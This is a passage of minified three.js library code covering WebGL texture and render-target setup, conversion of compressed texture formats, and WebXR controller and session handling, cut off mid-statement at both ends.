supported\");if(n.bindFramebuffer(t.FRAMEBUFFER,e),!r.depthTexture||!r.depthTexture.isDepthTexture)throw new Error(\"renderTarget.depthTexture must be an instance of THREE.DepthTexture\");i.get(r.depthTexture).__webglTexture&&r.depthTexture.image.width===r.width&&r.depthTexture.image.height===r.height||(r.depthTexture.image.width=r.width,r.depthTexture.image.height=r.height,r.depthTexture.needsUpdate=!0),w(r.depthTexture,0);const a=i.get(r.depthTexture).__webglTexture,o=Y(r);if(r.depthTexture.format===it)$(r)?s.framebufferTexture2DMultisampleEXT(t.FRAMEBUFFER,t.DEPTH_ATTACHMENT,t.TEXTURE_2D,a,0,o):t.framebufferTexture2D(t.FRAMEBUFFER,t.DEPTH_ATTACHMENT,t.TEXTURE_2D,a,0);else{if(r.depthTexture.format!==rt)throw new Error(\"Unknown depthTexture format\");$(r)?s.framebufferTexture2DMultisampleEXT(t.FRAMEBUFFER,t.DEPTH_STENCIL_ATTACHMENT,t.TEXTURE_2D,a,0,o):t.framebufferTexture2D(t.FRAMEBUFFER,t.DEPTH_STENCIL_ATTACHMENT,t.TEXTURE_2D,a,0)}}(r.__webglFramebuffer,e)}else if(a){r.__webglDepthbuffer=[];for(let i=0;i<6;i++)if(n.bindFramebuffer(t.FRAMEBUFFER,r.__webglFramebuffer[i]),void 0===r.__webglDepthbuffer[i])r.__webglDepthbuffer[i]=t.createRenderbuffer(),I(r.__webglDepthbuffer[i],e,!1);else{const n=e.stencilBuffer?t.DEPTH_STENCIL_ATTACHMENT:t.DEPTH_ATTACHMENT,a=r.__webglDepthbuffer[i];t.bindRenderbuffer(t.RENDERBUFFER,a),t.framebufferRenderbuffer(t.FRAMEBUFFER,n,t.RENDERBUFFER,a)}}else if(n.bindFramebuffer(t.FRAMEBUFFER,r.__webglFramebuffer),void 0===r.__webglDepthbuffer)r.__webglDepthbuffer=t.createRenderbuffer(),I(r.__webglDepthbuffer,e,!1);else{const n=e.stencilBuffer?t.DEPTH_STENCIL_ATTACHMENT:t.DEPTH_ATTACHMENT,i=r.__webglDepthbuffer;t.bindRenderbuffer(t.RENDERBUFFER,i),t.framebufferRenderbuffer(t.FRAMEBUFFER,n,t.RENDERBUFFER,i)}n.bindFramebuffer(t.FRAMEBUFFER,null)}const W=[],X=[];function Y(t){return Math.min(r.maxSamples,t.samples)}function $(t){const n=i.get(t);return t.samples>0&&!0===e.has(\"WEBGL_multisampled_render_to_texture\")&&!1!==n.__useRenderToTexture}function J(t,e){const n=t.colorSpace,i=t.format,r=t.type;return!0===t.isCompressedTexture||!0===t.isVideoTexture||n!==Ht&&n!==zt&&(Pe.getTransfer(n)===Wt?i===nt&&r===j||console.warn(\"THREE.WebGLTextures: sRGB encoded textures have to use RGBAFormat and UnsignedByteType.\"):console.error(\"THREE.WebGLTextures: Unsupported texture color space:\",n)),e}function Q(t){return\"undefined\"!=typeof HTMLImageElement&&t instanceof HTMLImageElement?(c.width=t.naturalWidth||t.width,c.height=t.naturalHeight||t.height):\"undefined\"!=typeof VideoFrame&&t instanceof VideoFrame?(c.width=t.displayWidth,c.height=t.displayHeight):(c.width=t.width,c.height=t.height),c}this.allocateTextureUnit=function(){const t=E;return t>=r.maxTextures&&console.warn(\"THREE.WebGLTextures: Trying to use \"+t+\" texture units while this GPU supports only \"+r.maxTextures),E+=1,t},this.resetTextureUnits=function(){E=0},this.setTexture2D=w,this.setTexture2DArray=function(e,r){const a=i.get(e);e.version>0&&a.__version!==e.version?L(a,e,r):n.bindTexture(t.TEXTURE_2D_ARRAY,a.__webglTexture,t.TEXTURE0+r)},this.setTexture3D=function(e,r){const a=i.get(e);e.version>0&&a.__version!==e.version?L(a,e,r):n.bindTexture(t.TEXTURE_3D,a.__webglTexture,t.TEXTURE0+r)},this.setTextureCube=function(e,o){const s=i.get(e);e.version>0&&s.__version!==e.version?function(e,o,s){if(6!==o.image.length)return;const l=P(e,o),c=o.source;n.bindTexture(t.TEXTURE_CUBE_MAP,e.__webglTexture,t.TEXTURE0+s);const h=i.get(c);if(c.version!==h.__version||!0===l){n.activeTexture(t.TEXTURE0+s);const e=Pe.getPrimaries(Pe.workingColorSpace),i=o.colorSpace===zt?null:Pe.getPrimaries(o.colorSpace),u=o.colorSpace===zt||e===i?t.NONE:t.BROWSER_DEFAULT_WEBGL;t.pixelStorei(t.UNPACK_FLIP_Y_WEBGL,o.flipY),t.pixelStorei(t.UNPACK_PREMULTIPLY_ALPHA_WEBGL,o.premultiplyAlpha),t.pixelStorei(t.UNPACK_ALIGNMENT,o.unpackAlignment),t.pixelStorei(t.UNPACK_COLORSPACE_CONVERSION_WEBGL,u);const d=o.isCompressedTexture||o.image[0].isCompressedTexture,p=o.image[0]&&o.image[0].isDataTexture,f=[];for(let t=0;t<6;t++)f[t]=d||p?p?o.image[t].image:o.image[t]:m(o.image[t],!0,r.maxCubemapSize),f[t]=J(o,f[t]);const y=f[0],b=a.convert(o.format,o.colorSpace),M=a.convert(o.type),S=v(o.internalFormat,b,M,o.colorSpace),E=!0!==o.isVideoTexture,w=void 0===h.__version||!0===l,T=c.dataReady;let A,C=x(o,y);if(R(t.TEXTURE_CUBE_MAP,o),d){E&&w&&n.texStorage2D(t.TEXTURE_CUBE_MAP,C,S,y.width,y.height);for(let e=0;e<6;e++){A=f[e].mipmaps;for(let i=0;i<A.length;i++){const r=A[i];o.format!==nt?null!==b?E?T&&n.compressedTexSubImage2D(t.TEXTURE_CUBE_MAP_POSITIVE_X+e,i,0,0,r.width,r.height,b,r.data):n.compressedTexImage2D(t.TEXTURE_CUBE_MAP_POSITIVE_X+e,i,S,r.width,r.height,0,r.data):console.warn(\"THREE.WebGLRenderer: Attempt to load unsupported compressed texture format in .setTextureCube()\"):E?T&&n.texSubImage2D(t.TEXTURE_CUBE_MAP_POSITIVE_X+e,i,0,0,r.width,r.height,b,M,r.data):n.texImage2D(t.TEXTURE_CUBE_MAP_POSITIVE_X+e,i,S,r.width,r.height,0,b,M,r.data)}}}else{if(A=o.mipmaps,E&&w){A.length>0&&C++;const e=Q(f[0]);n.texStorage2D(t.TEXTURE_CUBE_MAP,C,S,e.width,e.height)}for(let e=0;e<6;e++)if(p){E?T&&n.texSubImage2D(t.TEXTURE_CUBE_MAP_POSITIVE_X+e,0,0,0,f[e].width,f[e].height,b,M,f[e].data):n.texImage2D(t.TEXTURE_CUBE_MAP_POSITIVE_X+e,0,S,f[e].width,f[e].height,0,b,M,f[e].data);for(let i=0;i<A.length;i++){const r=A[i].image[e].image;E?T&&n.texSubImage2D(t.TEXTURE_CUBE_MAP_POSITIVE_X+e,i+1,0,0,r.width,r.height,b,M,r.data):n.texImage2D(t.TEXTURE_CUBE_MAP_POSITIVE_X+e,i+1,S,r.width,r.height,0,b,M,r.data)}}else{E?T&&n.texSubImage2D(t.TEXTURE_CUBE_MAP_POSITIVE_X+e,0,0,0,b,M,f[e]):n.texImage2D(t.TEXTURE_CUBE_MAP_POSITIVE_X+e,0,S,b,M,f[e]);for(let i=0;i<A.length;i++){const r=A[i];E?T&&n.texSubImage2D(t.TEXTURE_CUBE_MAP_POSITIVE_X+e,i+1,0,0,b,M,r.image[e]):n.texImage2D(t.TEXTURE_CUBE_MAP_POSITIVE_X+e,i+1,S,b,M,r.image[e])}}}g(o)&&_(t.TEXTURE_CUBE_MAP),h.__version=c.version,o.onUpdate&&o.onUpdate(o)}e.__version=o.version}(s,e,o):n.bindTexture(t.TEXTURE_CUBE_MAP,s.__webglTexture,t.TEXTURE0+o)},this.rebindTextures=function(e,n,r){const a=i.get(e);void 0!==n&&D(a.__webglFramebuffer,e,e.texture,t.COLOR_ATTACHMENT0,t.TEXTURE_2D,0),void 0!==r&&O(e)},this.setupRenderTarget=function(e){const r=e.texture,s=i.get(e),l=i.get(r);e.addEventListener(\"dispose\",M);const c=e.textures,h=!0===e.isWebGLCubeRenderTarget,u=c.length>1;if(u||(void 0===l.__webglTexture&&(l.__webglTexture=t.createTexture()),l.__version=r.version,o.memory.textures++),h){s.__webglFramebuffer=[];for(let e=0;e<6;e++)if(r.mipmaps&&r.mipmaps.length>0){s.__webglFramebuffer[e]=[];for(let n=0;n<r.mipmaps.length;n++)s.__webglFramebuffer[e][n]=t.createFramebuffer()}else s.__webglFramebuffer[e]=t.createFramebuffer()}else{if(r.mipmaps&&r.mipmaps.length>0){s.__webglFramebuffer=[];for(let e=0;e<r.mipmaps.length;e++)s.__webglFramebuffer[e]=t.createFramebuffer()}else s.__webglFramebuffer=t.createFramebuffer();if(u)for(let e=0,n=c.length;e<n;e++){const n=i.get(c[e]);void 0===n.__webglTexture&&(n.__webglTexture=t.createTexture(),o.memory.textures++)}if(e.samples>0&&!1===$(e)){s.__webglMultisampledFramebuffer=t.createFramebuffer(),s.__webglColorRenderbuffer=[],n.bindFramebuffer(t.FRAMEBUFFER,s.__webglMultisampledFramebuffer);for(let n=0;n<c.length;n++){const i=c[n];s.__webglColorRenderbuffer[n]=t.createRenderbuffer(),t.bindRenderbuffer(t.RENDERBUFFER,s.__webglColorRenderbuffer[n]);const r=a.convert(i.format,i.colorSpace),o=a.convert(i.type),l=v(i.internalFormat,r,o,i.colorSpace,!0===e.isXRRenderTarget),h=Y(e);t.renderbufferStorageMultisample(t.RENDERBUFFER,h,l,e.width,e.height),t.framebufferRenderbuffer(t.FRAMEBUFFER,t.COLOR_ATTACHMENT0+n,t.RENDERBUFFER,s.__webglColorRenderbuffer[n])}t.bindRenderbuffer(t.RENDERBUFFER,null),e.depthBuffer&&(s.__webglDepthRenderbuffer=t.createRenderbuffer(),I(s.__webglDepthRenderbuffer,e,!0)),n.bindFramebuffer(t.FRAMEBUFFER,null)}}if(h){n.bindTexture(t.TEXTURE_CUBE_MAP,l.__webglTexture),R(t.TEXTURE_CUBE_MAP,r);for(let n=0;n<6;n++)if(r.mipmaps&&r.mipmaps.length>0)for(let i=0;i<r.mipmaps.length;i++)D(s.__webglFramebuffer[n][i],e,r,t.COLOR_ATTACHMENT0,t.TEXTURE_CUBE_MAP_POSITIVE_X+n,i);else D(s.__webglFramebuffer[n],e,r,t.COLOR_ATTACHMENT0,t.TEXTURE_CUBE_MAP_POSITIVE_X+n,0);g(r)&&_(t.TEXTURE_CUBE_MAP),n.unbindTexture()}else if(u){for(let r=0,a=c.length;r<a;r++){const a=c[r],o=i.get(a);n.bindTexture(t.TEXTURE_2D,o.__webglTexture),R(t.TEXTURE_2D,a),D(s.__webglFramebuffer,e,a,t.COLOR_ATTACHMENT0+r,t.TEXTURE_2D,0),g(a)&&_(t.TEXTURE_2D)}n.unbindTexture()}else{let i=t.TEXTURE_2D;if((e.isWebGL3DRenderTarget||e.isWebGLArrayRenderTarget)&&(i=e.isWebGL3DRenderTarget?t.TEXTURE_3D:t.TEXTURE_2D_ARRAY),n.bindTexture(i,l.__webglTexture),R(i,r),r.mipmaps&&r.mipmaps.length>0)for(let n=0;n<r.mipmaps.length;n++)D(s.__webglFramebuffer[n],e,r,t.COLOR_ATTACHMENT0,i,n);else D(s.__webglFramebuffer,e,r,t.COLOR_ATTACHMENT0,i,0);g(r)&&_(i),n.unbindTexture()}e.depthBuffer&&O(e)},this.updateRenderTargetMipmap=function(e){const r=e.textures;for(let a=0,o=r.length;a<o;a++){const o=r[a];if(g(o)){const r=e.isWebGLCubeRenderTarget?t.TEXTURE_CUBE_MAP:t.TEXTURE_2D,a=i.get(o).__webglTexture;n.bindTexture(r,a),_(r),n.unbindTexture()}}},this.updateMultisampleRenderTarget=function(e){if(e.samples>0)if(!1===$(e)){const r=e.textures,a=e.width,o=e.height;let s=t.COLOR_BUFFER_BIT;const c=e.stencilBuffer?t.DEPTH_STENCIL_ATTACHMENT:t.DEPTH_ATTACHMENT,h=i.get(e),u=r.length>1;if(u)for(let e=0;e<r.length;e++)n.bindFramebuffer(t.FRAMEBUFFER,h.__webglMultisampledFramebuffer),t.framebufferRenderbuffer(t.FRAMEBUFFER,t.COLOR_ATTACHMENT0+e,t.RENDERBUFFER,null),n.bindFramebuffer(t.FRAMEBUFFER,h.__webglFramebuffer),t.framebufferTexture2D(t.DRAW_FRAMEBUFFER,t.COLOR_ATTACHMENT0+e,t.TEXTURE_2D,null,0);n.bindFramebuffer(t.READ_FRAMEBUFFER,h.__webglMultisampledFramebuffer),n.bindFramebuffer(t.DRAW_FRAMEBUFFER,h.__webglFramebuffer);for(let n=0;n<r.length;n++){if(e.resolveDepthBuffer&&(e.depthBuffer&&(s|=t.DEPTH_BUFFER_BIT),e.stencilBuffer&&e.resolveStencilBuffer&&(s|=t.STENCIL_BUFFER_BIT)),u){t.framebufferRenderbuffer(t.READ_FRAMEBUFFER,t.COLOR_ATTACHMENT0,t.RENDERBUFFER,h.__webglColorRenderbuffer[n]);const e=i.get(r[n]).__webglTexture;t.framebufferTexture2D(t.DRAW_FRAMEBUFFER,t.COLOR_ATTACHMENT0,t.TEXTURE_2D,e,0)}t.blitFramebuffer(0,0,a,o,0,0,a,o,s,t.NEAREST),!0===l&&(W.length=0,X.length=0,W.push(t.COLOR_ATTACHMENT0+n),e.depthBuffer&&!1===e.resolveDepthBuffer&&(W.push(c),X.push(c),t.invalidateFramebuffer(t.DRAW_FRAMEBUFFER,X)),t.invalidateFramebuffer(t.READ_FRAMEBUFFER,W))}if(n.bindFramebuffer(t.READ_FRAMEBUFFER,null),n.bindFramebuffer(t.DRAW_FRAMEBUFFER,null),u)for(let e=0;e<r.length;e++){n.bindFramebuffer(t.FRAMEBUFFER,h.__webglMultisampledFramebuffer),t.framebufferRenderbuffer(t.FRAMEBUFFER,t.COLOR_ATTACHMENT0+e,t.RENDERBUFFER,h.__webglColorRenderbuffer[e]);const a=i.get(r[e]).__webglTexture;n.bindFramebuffer(t.FRAMEBUFFER,h.__webglFramebuffer),t.framebufferTexture2D(t.DRAW_FRAMEBUFFER,t.COLOR_ATTACHMENT0+e,t.TEXTURE_2D,a,0)}n.bindFramebuffer(t.DRAW_FRAMEBUFFER,h.__webglMultisampledFramebuffer)}else if(e.depthBuffer&&!1===e.resolveDepthBuffer&&l){const n=e.stencilBuffer?t.DEPTH_STENCIL_ATTACHMENT:t.DEPTH_ATTACHMENT;t.invalidateFramebuffer(t.DRAW_FRAMEBUFFER,[n])}},this.setupDepthRenderbuffer=O,this.setupFrameBufferTexture=D,this.useMultisampledRTT=$}function $o(t,e){return{convert:function(n,i=\"\"){let r;const a=Pe.getTransfer(i);if(n===j)return t.UNSIGNED_BYTE;if(n===J)return t.UNSIGNED_SHORT_4_4_4_4;if(n===Q)return t.UNSIGNED_SHORT_5_5_5_1;if(n===et)return t.UNSIGNED_INT_5_9_9_9_REV;if(n===W)return t.BYTE;if(n===X)return t.SHORT;if(n===q)return t.UNSIGNED_SHORT;if(n===Y)return t.INT;if(n===K)return t.UNSIGNED_INT;if(n===Z)return t.FLOAT;if(n===$)return t.HALF_FLOAT;if(1021===n)return t.ALPHA;if(1022===n)return t.RGB;if(n===nt)return t.RGBA;if(1024===n)return t.LUMINANCE;if(1025===n)return t.LUMINANCE_ALPHA;if(n===it)return t.DEPTH_COMPONENT;if(n===rt)return t.DEPTH_STENCIL;if(1028===n)return t.RED;if(n===at)return t.RED_INTEGER;if(1030===n)return t.RG;if(n===ot)return t.RG_INTEGER;if(n===st)return t.RGBA_INTEGER;if(n===lt||n===ct||n===ht||n===ut)if(a===Wt){if(r=e.get(\"WEBGL_compressed_texture_s3tc_srgb\"),null===r)return null;if(n===lt)return r.COMPRESSED_SRGB_S3TC_DXT1_EXT;if(n===ct)return r.COMPRESSED_SRGB_ALPHA_S3TC_DXT1_EXT;if(n===ht)return r.COMPRESSED_SRGB_ALPHA_S3TC_DXT3_EXT;if(n===ut)return r.COMPRESSED_SRGB_ALPHA_S3TC_DXT5_EXT}else{if(r=e.get(\"WEBGL_compressed_texture_s3tc\"),null===r)return null;if(n===lt)return r.COMPRESSED_RGB_S3TC_DXT1_EXT;if(n===ct)return r.COMPRESSED_RGBA_S3TC_DXT1_EXT;if(n===ht)return r.COMPRESSED_RGBA_S3TC_DXT3_EXT;if(n===ut)return r.COMPRESSED_RGBA_S3TC_DXT5_EXT}if(n===dt||n===pt||n===ft||n===mt){if(r=e.get(\"WEBGL_compressed_texture_pvrtc\"),null===r)return null;if(n===dt)return r.COMPRESSED_RGB_PVRTC_4BPPV1_IMG;if(n===pt)return r.COMPRESSED_RGB_PVRTC_2BPPV1_IMG;if(n===ft)return r.COMPRESSED_RGBA_PVRTC_4BPPV1_IMG;if(n===mt)return r.COMPRESSED_RGBA_PVRTC_2BPPV1_IMG}if(n===gt||n===_t||n===vt){if(r=e.get(\"WEBGL_compressed_texture_etc\"),null===r)return null;if(n===gt||n===_t)return a===Wt?r.COMPRESSED_SRGB8_ETC2:r.COMPRESSED_RGB8_ETC2;if(n===vt)return a===Wt?r.COMPRESSED_SRGB8_ALPHA8_ETC2_EAC:r.COMPRESSED_RGBA8_ETC2_EAC}if(n===yt||n===xt||n===bt||n===Mt||n===St||n===Et||n===wt||n===Tt||n===At||n===Ct||n===Rt||n===Pt||n===Lt||n===Dt){if(r=e.get(\"WEBGL_compressed_texture_astc\"),null===r)return null;if(n===yt)return a===Wt?r.COMPRESSED_SRGB8_ALPHA8_ASTC_4x4_KHR:r.COMPRESSED_RGBA_ASTC_4x4_KHR;if(n===xt)return a===Wt?r.COMPRESSED_SRGB8_ALPHA8_ASTC_5x4_KHR:r.COMPRESSED_RGBA_ASTC_5x4_KHR;if(n===bt)return a===Wt?r.COMPRESSED_SRGB8_ALPHA8_ASTC_5x5_KHR:r.COMPRESSED_RGBA_ASTC_5x5_KHR;if(n===Mt)return a===Wt?r.COMPRESSED_SRGB8_ALPHA8_ASTC_6x5_KHR:r.COMPRESSED_RGBA_ASTC_6x5_KHR;if(n===St)return a===Wt?r.COMPRESSED_SRGB8_ALPHA8_ASTC_6x6_KHR:r.COMPRESSED_RGBA_ASTC_6x6_KHR;if(n===Et)return a===Wt?r.COMPRESSED_SRGB8_ALPHA8_ASTC_8x5_KHR:r.COMPRESSED_RGBA_ASTC_8x5_KHR;if(n===wt)return a===Wt?r.COMPRESSED_SRGB8_ALPHA8_ASTC_8x6_KHR:r.COMPRESSED_RGBA_ASTC_8x6_KHR;if(n===Tt)return a===Wt?r.COMPRESSED_SRGB8_ALPHA8_ASTC_8x8_KHR:r.COMPRESSED_RGBA_ASTC_8x8_KHR;if(n===At)return a===Wt?r.COMPRESSED_SRGB8_ALPHA8_ASTC_10x5_KHR:r.COMPRESSED_RGBA_ASTC_10x5_KHR;if(n===Ct)return a===Wt?r.COMPRESSED_SRGB8_ALPHA8_ASTC_10x6_KHR:r.COMPRESSED_RGBA_ASTC_10x6_KHR;if(n===Rt)return a===Wt?r.COMPRESSED_SRGB8_ALPHA8_ASTC_10x8_KHR:r.COMPRESSED_RGBA_ASTC_10x8_KHR;if(n===Pt)return a===Wt?r.COMPRESSED_SRGB8_ALPHA8_ASTC_10x10_KHR:r.COMPRESSED_RGBA_ASTC_10x10_KHR;if(n===Lt)return a===Wt?r.COMPRESSED_SRGB8_ALPHA8_ASTC_12x10_KHR:r.COMPRESSED_RGBA_ASTC_12x10_KHR;if(n===Dt)return a===Wt?r.COMPRESSED_SRGB8_ALPHA8_ASTC_12x12_KHR:r.COMPRESSED_RGBA_ASTC_12x12_KHR}if(n===It||n===Ot||n===Ut){if(r=e.get(\"EXT_texture_compression_bptc\"),null===r)return null;if(n===It)return a===Wt?r.COMPRESSED_SRGB_ALPHA_BPTC_UNORM_EXT:r.COMPRESSED_RGBA_BPTC_UNORM_EXT;if(n===Ot)return r.COMPRESSED_RGB_BPTC_SIGNED_FLOAT_EXT;if(n===Ut)return r.COMPRESSED_RGB_BPTC_UNSIGNED_FLOAT_EXT}if(36283===n||n===Nt||n===Ft||n===kt){if(r=e.get(\"EXT_texture_compression_rgtc\"),null===r)return null;if(n===It)return r.COMPRESSED_RED_RGTC1_EXT;if(n===Nt)return r.COMPRESSED_SIGNED_RED_RGTC1_EXT;if(n===Ft)return r.COMPRESSED_RED_GREEN_RGTC2_EXT;if(n===kt)return r.COMPRESSED_SIGNED_RED_GREEN_RGTC2_EXT}return n===tt?t.UNSIGNED_INT_24_8:void 0!==t[n]?t[n]:null}}}class Jo extends or{constructor(t=[]){super(),this.isArrayCamera=!0,this.cameras=t}}let Qo=class extends Zn{constructor(){super(),this.isGroup=!0,this.type=\"Group\"}};const ts={type:\"move\"};class es{constructor(){this._targetRay=null,this._grip=null,this._hand=null}getHandSpace(){return null===this._hand&&(this._hand=new Qo,this._hand.matrixAutoUpdate=!1,this._hand.visible=!1,this._hand.joints={},this._hand.inputState={pinching:!1}),this._hand}getTargetRaySpace(){return null===this._targetRay&&(this._targetRay=new Qo,this._targetRay.matrixAutoUpdate=!1,this._targetRay.visible=!1,this._targetRay.hasLinearVelocity=!1,this._targetRay.linearVelocity=new Xe,this._targetRay.hasAngularVelocity=!1,this._targetRay.angularVelocity=new Xe),this._targetRay}getGripSpace(){return null===this._grip&&(this._grip=new Qo,this._grip.matrixAutoUpdate=!1,this._grip.visible=!1,this._grip.hasLinearVelocity=!1,this._grip.linearVelocity=new Xe,this._grip.hasAngularVelocity=!1,this._grip.angularVelocity=new Xe),this._grip}dispatchEvent(t){return null!==this._targetRay&&this._targetRay.dispatchEvent(t),null!==this._grip&&this._grip.dispatchEvent(t),null!==this._hand&&this._hand.dispatchEvent(t),this}connect(t){if(t&&t.hand){const e=this._hand;if(e)for(const n of t.hand.values())this._getHandJoint(e,n)}return this.dispatchEvent({type:\"connected\",data:t}),this}disconnect(t){return this.dispatchEvent({type:\"disconnected\",data:t}),null!==this._targetRay&&(this._targetRay.visible=!1),null!==this._grip&&(this._grip.visible=!1),null!==this._hand&&(this._hand.visible=!1),this}update(t,e,n){let i=null,r=null,a=null;const o=this._targetRay,s=this._grip,l=this._hand;if(t&&\"visible-blurred\"!==e.session.visibilityState){if(l&&t.hand){a=!0;for(const i of t.hand.values()){const t=e.getJointPose(i,n),r=this._getHandJoint(l,i);null!==t&&(r.matrix.fromArray(t.transform.matrix),r.matrix.decompose(r.position,r.rotation,r.scale),r.matrixWorldNeedsUpdate=!0,r.jointRadius=t.radius),r.visible=null!==t}const i=l.joints[\"index-finger-tip\"],r=l.joints[\"thumb-tip\"],o=i.position.distanceTo(r.position),s=.02,c=.005;l.inputState.pinching&&o>s+c?(l.inputState.pinching=!1,this.dispatchEvent({type:\"pinchend\",handedness:t.handedness,target:this})):!l.inputState.pinching&&o<=s-c&&(l.inputState.pinching=!0,this.dispatchEvent({type:\"pinchstart\",handedness:t.handedness,target:this}))}else null!==s&&t.gripSpace&&(r=e.getPose(t.gripSpace,n),null!==r&&(s.matrix.fromArray(r.transform.matrix),s.matrix.decompose(s.position,s.rotation,s.scale),s.matrixWorldNeedsUpdate=!0,r.linearVelocity?(s.hasLinearVelocity=!0,s.linearVelocity.copy(r.linearVelocity)):s.hasLinearVelocity=!1,r.angularVelocity?(s.hasAngularVelocity=!0,s.angularVelocity.copy(r.angularVelocity)):s.hasAngularVelocity=!1));null!==o&&(i=e.getPose(t.targetRaySpace,n),null===i&&null!==r&&(i=r),null!==i&&(o.matrix.fromArray(i.transform.matrix),o.matrix.decompose(o.position,o.rotation,o.scale),o.matrixWorldNeedsUpdate=!0,i.linearVelocity?(o.hasLinearVelocity=!0,o.linearVelocity.copy(i.linearVelocity)):o.hasLinearVelocity=!1,i.angularVelocity?(o.hasAngularVelocity=!0,o.angularVelocity.copy(i.angularVelocity)):o.hasAngularVelocity=!1,this.dispatchEvent(ts)))}return null!==o&&(o.visible=null!==i),null!==s&&(s.visible=null!==r),null!==l&&(l.visible=null!==a),this}_getHandJoint(t,e){if(void 0===t.joints[e.jointName]){const n=new Qo;n.matrixAutoUpdate=!1,n.visible=!1,t.joints[e.jointName]=n,t.add(n)}return t.joints[e.jointName]}}class ns{constructor(){this.texture=null,this.mesh=null,this.depthNear=0,this.depthFar=0}init(t,e,n){if(null===this.texture){const i=new ze;t.properties.get(i).__webglTexture=e.texture,e.depthNear==n.depthNear&&e.depthFar==n.depthFar||(this.depthNear=e.depthNear,this.depthFar=e.depthFar),this.texture=i}}getMesh(t){if(null!==this.texture&&null===this.mesh){const e=t.cameras[0].viewport,n=new er({vertexShader:\"\\nvoid main() {\\n\\n\\tgl_Position = vec4( position, 1.0 );\\n\\n}\",fragmentShader:\"\\nuniform sampler2DArray depthColor;\\nuniform float depthWidth;\\nuniform float depthHeight;\\n\\nvoid main() {\\n\\n\\tvec2 coord = vec2( gl_FragCoord.x / depthWidth, gl_FragCoord.y / depthHeight );\\n\\n\\tif ( coord.x >= 1.0 ) {\\n\\n\\t\\tgl_FragDepth = texture( depthColor, vec3( coord.x - 1.0, coord.y, 1 ) ).r;\\n\\n\\t} else {\\n\\n\\t\\tgl_FragDepth = texture( depthColor, vec3( coord.x, coord.y, 0 ) ).r;\\n\\n\\t}\\n\\n}\",uniforms:{depthColor:{value:this.texture},depthWidth:{value:e.z},depthHeight:{value:e.w}}});this.mesh=new Yi(new xr(20,20),n)}return this.mesh}reset(){this.texture=null,this.mesh=null}getDepthTexture(){return this.texture}}class is extends oe{constructor(t,e){super();const n=this;let i=null,r=1,a=null,o=\"local-floor\",s=1,l=null,c=null,h=null,u=null,d=null,p=null;const f=new ns,m=e.getContextAttributes();let g=null,_=null;const v=[],y=[],x=new ve;let b=null;const M=new or;M.layers.enable(1),M.viewport=new Be;const S=new or;S.layers.enable(2),S.viewport=new Be;const E=[M,S],w=new Jo;w.layers.enable(1),w.layers.enable(2);let T=null,A=null;function C(t){const e=y.indexOf(t.inputSource);if(-1===e)return;const n=v[e];void 0!==n&&(n.update(t.inputSource,t.frame,l||a),n.dispatchEvent({type:t.type,data:t.inputSource}))}function R(){i.removeEventListener(\"select\",C),i.removeEventListener(\"selectstart\",C),i.removeEventListener(\"selectend\",C),i.removeEventListener(\"squeeze\",C),i.removeEventListener(\"squeezestart\",C),i.removeEventListener(\"squeezeend\",C),i.removeEventListener(\"end\",R),i.removeEventListener(\"inputsourceschange\",P);for(let t=0;t<v.length;t++){const e=y[t];null!==e&&(y[t]=null,v[t].disconnect(e))}T=null,A=null,f.reset(),t.setRenderTarget(g),d=null,u=null,h=null,i=null,_=null,U.stop(),n.isPresenting=!1,t.setPixelRatio(b),t.setSize(x.width,x.height,!1),n.dispatchEvent({type:\"sessionend\"})}function P(t){for(let e=0;e<t.removed.length;e++){const n=t.removed[e],i=y.indexOf(n);i>=0&&(y[i]=null,v[i].disconnect(n))}for(let e=0;e<t.added.length;e++){const n=t.added[e];let i=y.indexOf(n);if(-1===i){for(let t=0;t<v.length;t++){if(t>=y.length){y.push(n),i=t;break}if(null===y[t]){y[t]=n,i=t;break}}if(-1===i)break}const r=v[i];r&&r.connect(n)}}this.cameraAutoUpdate=!0,this.enabled=!1,this.isPresenting=!1,this.getController=function(t){let e=v[t];return void 0===e&&(e=new es,v[t]=e),e.getTargetRaySpace()},this.getControllerGrip=function(t){let e=v[t];return void 0===e&&(e=new es,v[t]=e),e.getGripSpace()},this.getHand=function(t){let e=v[t];return void 0===e&&(e=new es,v[t]=e),e.getHandSpace()},this.setFramebufferScaleFactor=function(t){r=t,!0===n.isPresenting&&console.warn(\"THREE.WebXRManager: Cannot change framebuffer scale while presenting.\")},this.setReferenceSpaceType=function(t){o=t,!0===n.isPresenting&&console.warn(\"THREE.WebXRManager: Cannot change reference space type while presenting.\")},this.getReferenceSpace=function(){return l||a},this.setReferenceSpace=function(t){l=t},this.getBaseLayer=function(){return null!==u?u:d},this.getBinding=function(){return h},this.getFrame=function(){return p},this.getSession=function(){return i},this.setSession=async function(c){if(i=c,null!==i){if(g=t.getRenderTarget(),i.addEventListener(\"select\",C),i.addEventListener(\"selectstart\",C),i.addEventListener(\"selectend\",C),i.addEventListener(\"squeeze\",C),i.addEventListener(\"squeezestart\",C),i.addEventListener(\"squeezeend\",C),i.addEventListener(\"end\",R),i.addEventListener(\"inputsourceschange\",P),!0!==m.xrCompatible&&await e.makeXRCompatible(),b=t.getPixelRatio(),t.getSize(x),void 0===i.renderState.layers){const n={antialias:m.antialias,alpha:!0,depth:m.depth,stencil:m.stencil,framebufferScaleFactor:r};d=new XRWebGLLayer(i,e,n),i.updateRenderState({baseLayer:d}),t.setPixelRatio(1),t.setSize(d.framebufferWidth,d.framebufferHeight,!1),_=new Ve(d.framebufferWidth,d.framebufferHeight,{format:nt,type:j,colorSpace:t.outputColorSpace,stencilBuffer:m.stencil})}else{let n=null,a=null,o=null;m.depth&&(o=m.stencil?e.DEPTH24_STENCIL8:e.DEPTH_COMPONENT24,n=m.stencil?rt:it,a=m.stencil?tt:K);const s={colorFormat:e.RGBA8,depthFormat:o,scaleFactor:r};h=new XRWebGLBinding(i,e),u=h.createProjectionLayer(s),i.updateRenderState({layers:[u]}),t.setPixelRatio(1),t.setSize(u.textureWidth,u.textureHeight,!1),_=new Ve(u.textureWidth,u.textureHeight,{format:nt,type:j,depthTexture:new ra(u.textureWidth,u.textureHeight,a,void 0,void 0,void 0,void 0,void 0,void 0,n),stencilBuffer:m.stencil,colorSpace:t.outputColorSpace,samples:m.antialias?4:0,resolveDepthBuffer:!1===u.ignoreDepthValues})}_.isXRRenderTarget=!0,this.setFoveation(s),l=null,a=await i.requestReferenceSpace(o),U.setContext(i),U.start(),n.isPresenting=!0,n.dispatchEvent({type:\"sessionstart\"})}},this.getEnvironmentBlendMode=function(){if(null!==i)return i.environmentBlendMode},this.getDepthTexture=function(){return f.getDepthTexture()};const L=new Xe,D=new Xe;function 